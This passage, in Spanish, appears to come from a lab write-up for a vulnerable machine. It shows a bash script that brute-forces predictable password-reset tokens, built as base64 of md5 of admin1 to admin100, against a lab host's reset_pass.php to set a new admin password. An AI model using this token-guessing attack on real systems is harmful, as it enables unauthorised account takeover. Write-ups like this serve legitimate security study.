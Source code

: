 ![Untitled](/images/2023-12-10-HVM-Minimal/Untitled%2012.png)

Ahora para generar el token lo hago con el siguiente script en bash

```bash
#!/bin/bash
echo -e "\n\n [+] Intentado cambiar password"
for user in $(echo admin{1..100});do
  # es importante eliminar los saltos de linea
  token=$(echo -n $user | md5sum | awk '{print $1}'| tr -d '\n' | base64)
  curl -X GET "http://192.168.1.43/reset_pass.php?user=admin&token=$token&newpass=$1" -s | grep "token" &>/dev/null
  if [ $? -eq 1 ];then
    echo -e "\n\n [+] Password de admin cambiada a '$1'"
    exit 0
  fi
done

echo -e "\n\n [-] No se pudo cambiar la password"
exit 1
```
{: file="create_toke.sh" }

![Untitled](/images/2023-12-10-HVM-Minimal/Untitled%2013.png)
